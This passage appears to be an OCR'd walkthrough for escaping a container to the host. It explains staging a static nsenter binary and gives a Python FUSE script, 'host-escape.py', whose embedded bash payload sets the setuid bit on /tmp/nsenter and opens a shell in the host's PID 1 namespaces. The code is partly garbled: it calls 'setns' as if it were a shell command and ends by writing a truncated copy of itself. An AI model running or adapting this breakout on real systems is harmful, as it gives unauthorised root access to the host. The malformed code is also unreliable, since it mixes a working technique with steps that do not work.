 * **Explanation:** Downloads, compiles, and copies the `nsenter` utility to `/tmp`. We compile it statically to avoid dependency issues within the container.
* **Why:** `nsenter` allows us to enter different namespaces. We need a statically linked version for portability.
* **Expected Output:**  Compilation output followed by successful file copy.

**Run the following python script (host-escape.py):**

```python
#!/usr/bin/env python3
import os
import sys
import stat
import time
import errno
from fuse import FUSE, FuseOSError, Operations

class RootFS(Operations):
    def getattr(self, path, fh=None):
        if path == '/':
            return dict(st_mode=(stat.S_IFDIR | 0o755), st_nlink=2)
        else:
            raise FuseOSError(errno.ENOENT)

    def readdir(self, path, fh):
        if path == '/':
            yield '.'
            yield '..'
            yield 'escape'

    def open(self, path, flags):
        if path == '/escape':
            return 0
        else:
            raise FuseOSError(errno.ENOENT)

    def read(self, path, size, offset, fh):
        if path == '/escape':
            # Create a script to escape the container
            escape_script = """#!/bin/bash
            setns {} /proc/1/ns/mnt
            chmod +s /tmp/nsenter
            /tmp/nsenter -t 1 -m -u -p -i /bin/sh
            """.format(os.getpid())
            return escape_script.encode('utf-8')
        else:
            raise FuseOSError(errno.ENOENT)

    def destroy(self, path):
        os.remove("/tmp/host-escape.py")  # Cleanup

if __name__ == '__main__':
    #Save the script to /tmp/host-escape.py
    script_path = "/tmp/host-escape.py"
    with open(script_path, "w") as f:
        f.write("#!/usr/bin/env python3\n")
        f.write("import os\n")
        f.write("import sys\n")
        f.write("import stat\n")
        f.write("import time\n")
        f.write("import errno\n")
        f.write("from fuse import FUSE, FuseOSError, Operations\n")
        f.write("\n")
        f.write("class RootFS(Operations):\n")
        f.write("    def getattr(self, path, fh=None):\n")
```